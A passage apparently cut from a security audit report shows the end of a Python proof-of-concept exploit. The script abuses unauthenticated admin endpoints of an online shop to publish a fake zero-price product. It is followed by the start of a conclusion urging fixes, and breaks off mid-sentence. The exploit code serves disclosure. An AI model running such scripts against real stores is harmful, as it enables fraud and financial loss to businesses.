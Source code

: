 ```python
        product_id = create_response.json()['product']['id']
        print(f"[+] Product created with ID: {product_id}")

        # Step 2: Upload fake product image
        print("[*] Uploading fake product image...")
        with open('fake_product.jpg', 'rb') as f:
            files = {'file': f}
            upload_response = requests.post(
                f"{BASE_URL}/api/admin/upload",
                files=files
            )

        if upload_response.status_code == 200:
            image_url = upload_response.json()['url']
            print(f"[+] Image uploaded: {image_url}")

            # Step 3: Update product with fake image
            print("[*] Updating product with fake image...")
            update_response = requests.put(
                f"{BASE_URL}/api/admin/products/{product_id}",
                json={
                    "name": "FREE DESIGNER HOODIE",
                    "description": "Get it for free!",
                    "price": 0,
                    "images": [image_url],
                    "sizes": ["S", "M", "L", "XL"],
                    "colors": ["Black"],
                    "variants": [
                        {"size": "M", "color": "Black", "stock": 9999}
                    ],
                    "featured": True,
                    "active": True
                }
            )

            if update_response.status_code == 200:
                print("[+] EXPLOIT SUCCESSFUL")
                print(f"[+] Fake product is now live at: {BASE_URL}/products/{product_id}")
                print("[!] Impact: Brand reputation damaged, financial loss")

    print("[*] Exploit demonstration complete")

# DO NOT RUN without authorization!
# exploit_unauthenticated_admin()
```

---

## Conclusion

This application has **critical security vulnerabilities** that must be fixed before production deployment. The unauthenticated admin API endpoints represent a **complete security failure** that would allow any attacker to:
